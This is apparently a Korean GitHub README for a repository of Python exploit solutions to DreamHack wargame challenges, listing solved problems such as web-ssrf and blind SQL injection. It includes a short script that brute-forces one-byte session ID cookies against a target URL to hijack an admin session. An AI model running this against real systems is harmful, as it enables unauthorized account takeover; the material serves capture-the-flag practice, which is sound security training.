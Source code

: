 # DreamHack Code :computer:
DreamHack 문제들을 해결한 exploit 코드들이 있습니다.
(Python 위주)


## 문제 목록 :unlock:
- [X] Mango
- [X] Counting_query
- [X] proxy-1
- [X] session
- [X] stream
- [X] web-ssrf
- [X] rev-basic-4 
- [X] rev-basic-6
- [X] rev-basic-5
- [X] rev-basic-8
- [X] blind_sql_injection_advanced
- [X] chocoshop

## 예시 코드 :clipboard:
```python
import requests

target_url = 'localhost_input'  # 타겟 서버 주소를 여기에 입력

def session_fixation_attack():
    for i in range(256):
        session_id = bytes([i]).hex()

        cookies = {'sessionid': session_id}

        response = requests.get(target_url, cookies=cookies)

        if 'Hello' in response.text:
            print(f'Success! Found admin session ID: {session_id}')
            break
        else:
            print(f'Tried session ID: {session_id}, but not admin.')

session_fixation_attack()
```
